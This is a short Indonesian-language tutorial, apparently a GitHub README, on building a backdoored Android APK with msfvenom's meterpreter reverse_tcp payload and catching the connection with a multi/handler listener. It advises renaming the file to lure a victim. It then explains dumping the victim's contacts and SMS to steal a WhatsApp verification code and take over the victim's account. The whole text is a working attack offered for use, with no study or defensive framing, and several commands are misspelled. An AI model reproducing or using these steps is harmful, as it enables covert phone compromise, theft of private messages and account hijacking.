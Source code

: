 Cara membuat apk bacdoor kamka :v

cd metasploit-framework
./msfvenom -p android/meterpreter/reverse_tcp LHOST=(ip elo)  LPORT=4444 -o /sdcard/backdoor.apk

NOTE :ip local elo 
note juga tab baru ketik ifconfig lalu tekan enter NAH di situ ada tulisan inet kalian liat yang
 paling bawah ya kalian copy ip kalian

NOTE LAGI: nama backdoor itu bisa kalian ganti bebas bisa juga kalian ganti jadi SIMONTOK.apk

NOTE LAGI NIH : LPROT BISA 4444 ATAU 8080

Setelah itu masukin PERINTAH exploit nya

Pertama : use multi/handler
Kedua : set payload android/meterpreter/reverse_tcp
Ke tiga : set lhost (Samain yang di atas ip elo)
KE EMPAT : set lport (sesuain yang di atas 4444 atau 8080)
KE LIMA :  exploit NOTE MASUKAN PERINTAH INI JIKA KORBAN SUDAH MENGISTALL APK BACKDOOR NYA

PUNTEN BONUS: 
NAH KLO DAH SELESAI NTAR ADA TULISAN MERTERPRETER
NAH KLO KALIAN MO TAU KONTAK KORBAN masukin prerinta dump_concat
Klo mo sadap wa :
sys info

dalvik/android

 klean login pake nomer korban nah kan udh ya minta kode verivikaisi nya
Pergi ke mestaploit ketil dump_sms nah ntar bakal muncul kode 
Kalian buka tab baru  nah contoh ya kode nya dari mestaploit sms_dump_
29910101.txt  nah  kan kalian sudah buka tab baruya kalian ketik  cat (kode dari mestaploitnya)
